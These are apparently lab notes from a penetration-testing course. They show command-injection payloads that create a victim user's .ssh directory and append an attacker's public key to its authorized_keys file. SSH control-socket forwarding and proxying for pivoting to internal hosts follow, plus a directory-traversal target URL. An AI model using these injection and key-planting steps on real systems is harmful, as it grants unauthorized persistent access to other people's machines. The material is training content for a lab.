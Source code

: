 After you determine who the User is and their home directory, check to see if they have a .ssh directory.

If not, make one:
```
; mkdir /home/billybob/.ssh
```

Verify it was created:
```
; ls -la /home/billybob
```

## Malicious File Upload

Get your public key.
```
ssh-keygen
ls -l /home/student/.ssh
cat /home/student/.ssh/id_rsa.pub
```
Copy that key over to billybob's directory "/home/billybob/.ssh/authorized_keys"
```
; echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDaf56Lv5nrgWiIKbzhHLOiqyog8ATYemjQAFZYDA4sGfbVofZR+wOeoazbV3xCW9zQdqYpUZHUvpuIDVhNfc4RuLOurS+kddlJ8lJeh/GWarckQfksCpCtEV9Cd4LFIUsWpbPXF1v68RJY+kE5IP84B6+aM+2gwfSULR9rpSWV+P2npvRV3zmeGCevJqT57sMfKitI6lNpYRVFF6VAl+g4LEtQ2ac1VwfYZl//FTYwpUNS24M6o0quG1L80YD88+p0XwEN+SDifd0Qrx5GIf+yOrEcu75EIg6KLko042f9vIb35XL5AnW5nIu9xNJZcj4OoLX3Ppht3Rja27zRg39n student@lin-ops" >> /home/billybob/.ssh/authorized_keys
```

---------------------------------------------------------------------------------

```
ssh -MS /tmp/web student@10.50.37.98
ssh -S /tmp/web web -O forward -L 2222:10.100.28.40:4444
ssh billybob@127.0.0.1 -p 2222
ssh -S /tmp/jump jump -O cancel -D9050
ssh -S /tmp/web web -O forward -D9050
```
	# on lin-ops
	* make a new socket, and ssh into the web server, and loggon
	- sendinig private key to encrypt the begging of the conversation. This allows the client to authenticate.
	 ```
	 ssh -i .ssh/id_rsa -MS /tmp/web billybob@127.0.0.1 -p 1111
	 ```
	* Congrats, you did a ssh  masquerade

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# on web server: Directory Traversal via HTTP POST/GET methods:
```
http://10.50.28.11/path/pathdemo.php
```
